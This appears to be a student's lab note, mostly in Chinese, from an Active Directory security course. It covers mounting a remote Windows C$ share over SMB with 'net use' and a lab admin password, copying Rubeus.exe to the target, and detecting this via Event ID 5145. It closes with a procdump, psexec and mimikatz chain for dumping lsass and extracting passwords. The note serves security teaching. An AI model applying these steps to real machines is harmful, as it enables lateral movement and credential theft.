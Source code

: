 # NTUSTISC - AD Note - Lab(SMB遠端讀寫)
[TOC]

Lecture Video: [ 2022/05/11 AD 安全 2 ](https://youtu.be/ubNMQ7_dcm0?si=26g2Lz2CB-O-7S5d)

## Lab
這個lab主要和之前不太一樣的地方在於都是利用SMB的功能達到遠端電腦讀寫的效果，雖然遠端執行也可以做到，但這樣會比較方便
### ==遠端讀寫(w/ GUI)==
1. Open File Explorer
2. Enter `\\<IP>\c$`
For example: `\\192.168.222.128\c$`
3. Login Local Admin
![](https://hackmd.io/_uploads/S1uCNUBlp.png)

* Result
    我在Win10中利用上述步驟，成功讀取到Win2016的資料
    ![](https://hackmd.io/_uploads/HJbEr8Bxa.png)

### ==遠端讀寫(w/o GUI)==
沒有GUI的情況就需要先掛載遠端的C槽在本地端，然後才可以進行後續的讀寫，有時候他會跳出錯誤
* Cheat Sheet
    ```bash
    $ net use \\<IP>\C$ "<password>" /user:<username>
    ```
    :::spoiler Result
    ```bash
    $ net use \\192.168.222.128\C$ "1qaz@WSX3edc" /user:administrator # 掛載遠端磁碟
    命令已經成功完成。
    $ net use # 查看已掛載的遠端磁碟
    會記錄新的網路連線。


    狀態       本機        遠端                    網路

    -------------------------------------------------------------------------------
    OK                     \\192.168.222.128\C$      Microsoft Windows Network
    命令已經成功完成。
    $ copy Rubeus.exe \\192.168.222.128\C$
    複製了         1 個檔案。
    ```
    ![](https://hackmd.io/_uploads/BykOL8rgT.png)
    可以看到Win2016的C槽中多了一個Rubeus.exe的檔案，代表成功
    :::

### ==How to Detect SMB Access==
Event ID: 5145
預設不開，因為會有大量的event湧入，除非設定有存取c$的filter，就會少非常多，因為遠端存取c槽本身就蠻可疑的，所以偵測到非法存取的機率就蠻高的

## ==組合技==
1. 利用SMB開進去遠端檔案總管，然後把procdump.exe送過去(忘記procdump.exe可以複習一下[NTUSTISC - AD Note - Lab(其他方法得到lsass.dmp)](https://hackmd.io/@SBK6401/S16T17NCn))
2. 使用psexec.exe遠端執行procdump.exe就可以取得lsass的memory dump
3. 再利用SMB把dump result取回本機
4. 在本地端使用mimikatz以便取得更多密碼